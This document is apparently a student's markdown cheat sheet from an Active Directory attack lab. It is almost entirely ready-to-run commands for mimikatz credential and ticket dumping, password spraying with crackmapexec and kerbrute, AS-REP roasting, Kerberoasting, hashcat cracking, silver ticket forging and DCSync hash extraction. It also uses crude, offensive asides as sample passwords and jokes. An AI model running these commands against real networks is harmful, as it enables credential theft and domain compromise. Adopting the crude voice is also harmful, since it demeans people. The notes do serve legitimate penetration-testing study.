 # AD AuthN Basic
- Domain Expansion: I'd Win <img src="905673665fe7248681682d11b5739501.png" width="50">
## AuthN Type
1. NTLM 
   <img src="efc3ae731d085f29a1673782d583e64d-ad_ntlm.png" width="400">
2. Kerberos 
   <img src="b5e6b0ecb201daef973f507049049029-ad_kerbauth.png" width="400">

## Cached AD Credential
- w/ mimikatz
- ```privilege::debug``` to engage the SeDebugPrivlege8 privilege, which will allow us to interact with a process owned by another account.
- ``` sekurlsa::logonpasswords ``` get cached password that loggin this pc
- ``` sekurlsa::tickets ``` get cached ticket 

# Attack AD
## Password attack/ Spray
- ``` net accounts ``` get account policy e.g. logout time
1. DirectoryService (low & slow)
    - Run in Windows Env.
    - Get LDAP path (reference ch21)
    - ``` New-Object System.DirectoryServices.DirectoryEntry($LDAPpath, {username}, {passowrd}) ``` test if return normal result. If yes = correct , if false = nope 
    - DomainPasswordSpray: https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1 #NoFullAutoInTheBuilding! 🔫🔫🔫🔫🔫🔫
2. SMB (Nois & slow)
    - Run in Kali Env
    - ``` crackmapexec smb {victim ip} -u users.txt -p 'YouAreFuckingGay' -d corp.com (--continue-on-success OR --shares OR --users) ``` 
    - ``` -pass-pol ``` check password policy (before brute force)
    - If have local admin rights of that ac will show "Pwd3d!"
3. Kerberos TGT
    - Run in Windows/ Kali
    - Kerbrute: https://github.com/ropnop/kerbrute/releases/tag/v1.0.3
    - ``` .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!" ```

## AS-REP Roasting
- If without Kerberos pre-authN
- Linux (Kali way) 
1. ``` impacket-GetNPUsers -dc-ip {domain controller ip!!}  -request -outputfile as-rep-roasted.txt corp.com/pete ``` Grap the AS-REP packet
2. ``` sudo hashcat -m 18200 as-rep-roasted.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force -n 20 ``` 

- Windows (victim way)
1. Rubeus: https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
2. ``` .\Rubeus.exe asreproast /nowrap ```
3. hashcat 

## Kerberoast (TGS-REP)
- Target service accounts
- The service ticket is encrypted using the SPN's password hash.
- m=13100 hashcat
- Linux (kali way)
1. ``` sudo impacket-GetUserSPNs -request -dc-ip {domain controller ip} corp.com/pete ```
2. hashcat

- Windows (victim way)
1. ``` .\Rubeus.exe kerberoast /outfile:hashes.kerberoast ```
2. hashcat crack

## Silver Tickets
- Forge service tickets step
- Target forging TGS
- Requires: 
    1. SPN password hash
    2. Domain SID
    3. Target SPN
- Use ticket accesss HTTP SPN resource
- Windows (victim way)
1. Find that service admin hash in cached data w/ ```mimikatz> sekurlsa::logonpasswords ``` 
2. Domain sid ```pwsh> whoami /user ``` ``` S-1-5-21-1987370270-658905905-1781884369-1105 ``` BUT ignore last segment ``` -1105```
3. Target SPN e.g. web6969.corp.com
4. Run ```mimikatz> kerberos::golden /sid:{sid} /domain:corp.com /ptt /target:{target spn} /service:http /rc4:{hashes} /user:{user you want to impersonate} ```
5. check tickets ```pwsh> klist ```
6. try access kerberos services: ``` iwr -UseDefaultCredentials http://web04 ```

- Linux (Kali way)
1. Impersonate Administrator via Silver Ticket (w/ service account):
2. Silver/Golden ticket ``` impacket-ticketer -nthash {nthash} -domain-sid {domain-sid} -domain nagoya-industries.com -spn {spn} -user-id 500 Administrator ```
3. get env var: ``` export KRB5CCNAME=$PWD/Administrator.ccache ```
4. Create file under /etc/brb5user.conf
   ```
    [libdefaults]
            default_realm = NAGOYA-INDUSTRIES.COM
            kdc_timesync = 1
            ccache_type = 4
            forwardable = true
            proxiable = true
        rdns = false
        dns_canonicalize_hostname = false
            fcc-mit-ticketflags = true

    [realms]        
            NAGOYA-INDUSTRIES.COM = {
                    kdc = nagoya.nagoya-industries.com
            }

    [domain_realm]
            .nagoya-industries.com = NAGOYA-INDUSTRIES.COM
    ```

## Domain Controller Sync
- Only works in sync turned on DC (Production real world will have)
- Requires DC admin ( Replicating Directory Changes Permissions )
- NLTM module 1000
- Windows (Victim way)
  1. Login to DC admin
  2. Obtain any user credentials(hashed) ``` lsadump::dcsync /user:corp\dave ```
- Linux (Kali way)
1. ``` impacket-secretsdump -just-dc-user {target user to get} corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023\!"@{dc_ip} ```
2. Another way (maybe care about datetime)
    ``` 
    export KRB5CCNAME=ticket.ccache
    impacket-secretdump -k -no-pass {domain name}
    ```

# Generate TGT
## Rubeus tgtdeleg
- ``` .\rubeus.exe tgtdeleg /nowrap ```
- decode the kirbi with base 64 ``` cat {ticket.kirbi} | base64 -d > {ticket.kirbi} ```

# Convert kirbi to ccache
- ``` kirbi2ccache {xx.kirbi} {xx.ccache} ```